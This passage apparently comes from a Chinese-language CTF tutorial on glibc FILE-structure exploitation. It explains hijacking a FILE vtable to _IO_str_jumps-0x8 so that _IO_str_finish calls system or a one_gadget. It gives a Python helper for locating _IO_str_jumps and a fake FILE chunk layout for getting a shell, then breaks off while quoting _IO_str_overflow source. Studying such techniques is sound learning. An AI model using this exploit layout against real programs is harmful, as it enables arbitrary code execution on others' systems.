    可以看到，这里直接把 `fp->_s._free_buffer` 的内容当做函数地址来直接调用
   
   当然，我们仍然需要绕过2.23中的 对于mode等的检查，之后把vtable劫持为 `_IO_str_jumps-0x8` ，这里相当劫持了 `_IO_OVERFLOW` 成为 `_IO_str_finish` 这个vtable可以绕过检查，因为他在vtable的地址段之中
   
   由于libc中不存在该函数，可以利用如下的函数进行定位：
   
   ```python
   # libc.address = libc_base
   def get_IO_str_jumps():
       IO_file_jumps_addr = libc.sym['_IO_file_jumps']
       IO_str_underflow_addr = libc.sym['_IO_str_underflow']
       for ref in libc.search(p64(IO_str_underflow_addr-libc.address)):
           possible_IO_str_jumps_addr = ref - 0x20
           if possible_IO_str_jumps_addr > IO_file_jumps_addr:
               return possible_IO_str_jumps_addr
   ```
   
   于是可以构造如下的chunk，来进行getshell
   
   ```c
   ._chain => chunk_addr
   chunk_addr
   {
     file = {
       _flags = 0x0,
       _IO_read_ptr = 0x0,
       _IO_read_end = 0x0,
       _IO_read_base = 0x0,
       _IO_write_base = 0x0,
       _IO_write_ptr = 0x1,
       _IO_write_end = 0x0,
       _IO_buf_base = bin_sh_addr,
         ...
         _mode = 0x0, //一般不用特意设置
         _unused2 = '\000' <repeats 19 times>
     },
     vtable = _IO_str_jumps-8 //chunk_addr + 0xd8 ~ +0xe0
   }
   +0xe0 ~ +0xe8 : 0x0
   +0xe8 ~ +0xf0 : system_addr / one_gadget //fp->_s._free_buffer
   ```
   
2. 利用 __IO_str_overflow()_ 的手段：

   源码如下：

   ```c
   int
   _IO_str_overflow (FILE *fp, int c)
   {
     int flush_only = c == EOF;
     size_t pos;
     if (fp->_flags & _IO_NO_WRITES)
         return flush_only ? 0 : EOF;
     if ((fp->_flags & _IO_TIED_PUT_GET) && !(fp->_flags & _IO_CURRENTLY_PUTTING))
       {
         fp->_flags |= _IO_CURRENTLY_PUTTING;
         fp->_IO_write_ptr = fp->_IO_read_ptr;
         fp->_IO_read_ptr = fp->_IO_read_end;
       }
     pos = fp->_IO_write_ptr - fp->_IO_write_base;
     if (pos >= (size_t) (_IO_blen (fp) + flush_only))
       {
         if (fp->_flags & _IO_USER_BUF) /* not allowed to enlarge */
   	return EOF;
         else
   	{
   ```